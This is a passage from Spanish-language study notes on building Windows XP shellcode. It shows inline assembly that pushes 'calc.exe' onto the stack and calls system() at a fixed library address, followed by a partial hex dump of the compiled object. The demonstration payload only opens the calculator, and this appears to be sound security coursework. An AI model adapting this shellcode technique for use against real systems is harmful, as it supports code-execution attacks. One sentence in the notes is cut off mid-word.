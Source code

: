 ```c
        mov byte ptr [ebp-06h], 63h     ; c
        mov byte ptr [ebp-05h], 2Eh     ; .
        mov byte ptr [ebp-04h], 65h     ; e
        mov byte ptr [ebp-03h], 78h     ; x
        mov byte ptr [ebp-02h], 65h     ; e
		
        lea eax, [ebp-09h]              ; Ultima posicion de 'calc.exe'
		
        push eax
        mov  ebx, 0x77c293c7            ; Direccion de la libreria 'system'
        call ebx
    }
}
```
^ecb45c

> [!attention] `windows.h` falla fuera de [[Windows XP]].
> Se necesita compilar y contruir el código del ejecutable **dentro** de [[Windows XP]].
> Usando, por ejemplo, *Visual Studio C++ 6.0*.

Tras construir el ejecutable, se comprueba que este ejecuta la calculadora correctamente.

### Conclusión
Partiendo de lo mencionado anteriormente:
![[#Conclusión]]

Esta parte corresponde al tercer punto.


## Paso 03: extraer el código hexadecimal del ensamblador
Dado el [[tsunami#^ecb45c|código anterior]], se requiere sola y exclusivamente el código ensamblador (contenido de `__asm{}`) para el [[Shellcode|shellcode]], por lo que usando Visual Studio C++ 6.0 desde [[Windows XP]], al contr

Usando el comando `xxd -i codigo.c > codigo.hex` (siendo [[tsunami#^ecb45c|este código]] el argumento), se obtiene:

```
unsigned char asm_obj[] = {
  0x4c, 0x01, 0x05, 0x00, 0xfe, 0x59, 0xf1, 0x62, 0x5a, 0x24, 0x00, 0x00,
  0x1c, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x2e, 0x64, 0x72, 0x65,
  0x63, 0x74, 0x76, 0x65, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x62, 0x00, 0x00, 0x00, 0xdc, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x0a, 0x10, 0x00,
  0x2e, 0x64, 0x65, 0x62, 0x75, 0x67, 0x24, 0x53, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0xeb, 0x20, 0x00, 0x00, 0x3e, 0x01, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x48, 0x00, 0x10, 0x42, 0x2e, 0x74, 0x65, 0x78, 0x74, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x99, 0x00, 0x00, 0x00,
  
  .
  .  Se ha omitido parte del código para no ocupar demasiado espacio.
  .
  
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x2e, 0x64, 0x65, 0x62, 0x75, 0x67,
  0x24, 0x53, 0x00, 0x00, 0x00, 0x00, 0x04, 0x00, 0x00, 0x00, 0x03, 0x02,
  0x4e, 0x00, 0x00, 0x00, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x03, 0x00, 0x05, 0x00, 0x00, 0x00, 0x73, 0xbf, 0xd2, 0x13, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x2e, 0x64, 0x65, 0x62, 0x75, 0x67, 0x24, 0x54, 0x00, 0x00, 0x00, 0x00,
  0x05, 0x00, 0x00, 0x00, 0x03, 0x02, 0x48, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x04, 0x00, 0x00, 0x00
```